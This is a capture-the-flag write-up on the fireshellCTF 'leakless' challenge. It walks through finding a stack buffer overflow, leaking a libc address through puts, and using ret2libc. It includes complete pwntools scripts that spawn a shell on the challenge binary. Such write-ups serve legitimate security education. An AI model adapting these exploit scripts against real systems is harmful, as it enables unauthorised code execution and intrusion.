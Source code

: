 ## fireshellCTF: leakless
> Who does need a leak nowadays?

##### *tl;dr: leak addresses to ret2libc*
#### I wasn't able to solve any of these challenges during the duration of the ctf, but I'm hosting them locally (files can be downloaded [here](https://github.com/alissonbezerra/fireshell-ctf-2019/tree/master/pwn)) and going over them to learn new stuff. For this challenge, we are given only a binary to play around with, so first thing to do is to check the security measures of the binary:
```
$ checksec leakless
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
## Reverse Engineering
#### Interestingly, we see that NX is enabled which means that the classic shellcode attack won't work - but ret2libc will. From my experiences from solving pwn challs, binaries from the server side have ASLR turned on, so we'll take a note of that. To have a better understanding of the binary, we decompile it with GHIDRA. Looking at the functions, we see the vulnerable one - feedme:
```c
void feedme(void)

{
  undefined local_4c [68];
  
  __x86.get_pc_thunk.ax();
  read(0,local_4c,0x100);
  return;
}
```
#### We see that a buffer is initialized for 68 bytes only but read reads up to 256 - thus causing a buffer overflow. We'll take advantage of this to perform a ret2libc attack and since ASLR is turned on server side, we'll need to leak some addresses. For this, we'll use the puts function present in the binary to print out functions from the server, then return back to main to prevent program termination. Before we do that, we need to find out which offset overwrites the return address then let's get the addresses we need:
```
$ gdb ./leakless
	gdb-peda$ p puts
	$1 = {<text variable, no debug info>} 0x80483f0 <puts@plt>
	
	gdb-peda$ p main
	$2 = {<text variable, no debug info>} 0x804861a <main>

	gdb-peda$ disas puts
	Dump of assembler code for function puts@plt:
	   0x080483f0 <+0>:	jmp    DWORD PTR ds:0x804a018
	   0x080483f6 <+6>:	push   0x18
	   0x080483fb <+11>:	jmp    0x80483b0
	End of assembler dump.
	
	gdb-peda$ pattern create 100
	'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
	
	gdb-peda$ r
	AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
	[...]
	Stopped reason: SIGSEGV
	0x41344141 in ?? ()
	
	gdb-peda$ pattern offset 0x41344141
	1093943617 found at offset: 76
```
## Exploitation
#### There we have it: the offset needed to overwrite the eip register is 76, we've got the addresses for both puts' plt and got entries as well as main. The plan here is to jump to call puts, providing the GOT address as its argument to leak it's address, then loop back to main. To execute that, we craft a simple python script:
```python
from pwn import *

#: Connect to challenge server
binary = ELF('./leakless')
p = binary.process()

#: Exploit code; Stage 1
offset = 'A' * 76
puts_plt = binary.plt['puts']
main_addr = binary.symbols['main']
puts_got = binary.got['puts']
exploit = offset + p32(puts_plt) + p32(main_addr) + p32(puts_got)

#: Send payload; Stage 1
p.sendline(exploit)
puts_leak = u32(p.recv()[:4])
print(hex(puts_leak))
```
#### Running the script returns `0xf7dd2b40`, but it will return a different address every time it is ran. What we do want to take note of is the last 3 bytes which are always constant. Having this, we reference is against `libc.blukat.me` to find out which libc version we're using. This will help us get the address offsets for the functions and ingredients we need to get a shell. When we do it, we find out that the libc the server uses is `libc6_2.27-3ubuntu1_i386`. We download this and use it within our exploit do get some useful addresses. 
#### As soon as we've downloaded it, we calculate the libc base by subtracting the libc's puts offset from the one we leaked from the server. From this point will be smooth sailing, since all we need to do is to add the libc base address to the offsets of `system` and `exit` as well as the pointer to a `/bin/sh` string - repeat the same process we did with the leak, and then enjoy our shell. For the final payload, we have this script:
```python
from pwn import *

#: Connect to challenge server
libc = ELF('libc6_2.27-3ubuntu1_i386.so')
binary = ELF('./leakless')
p = binary.process()

#: Exploit code; Stage 1
offset = 'A' * 76
puts_plt = binary.plt['puts']
main_addr = binary.symbols['main']
puts_got = binary.got['puts']
exploit = offset + p32(puts_plt) + p32(main_addr) + p32(puts_got)

#: Send payload; Stage 1
p.sendline(exploit)
puts_leak = u32(p.recv()[:4])
print(hex(puts_leak))

#: Exploit code; Stage 2
libc_base = puts_leak - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
exit_addr = libc_base + libc.symbols['exit']
bin_sh = libc_base + libc.search('/bin/sh').next()
exploit = offset + p32(system_addr) + p32(exit_addr) + p32(bin_sh)

#: Send payload; Stage 2
p.sendline(exploit)
p.interactive()
```
#### Run the script, enjoy the shell, cat the flag!
```
$ python exploit.py
0xf7d5ab40
[*] Switching to interactive mode
$ cat flag.txt
F#{y3ah!!_y0u_d1d_1t!_C0ngr4tz}
```
	
	
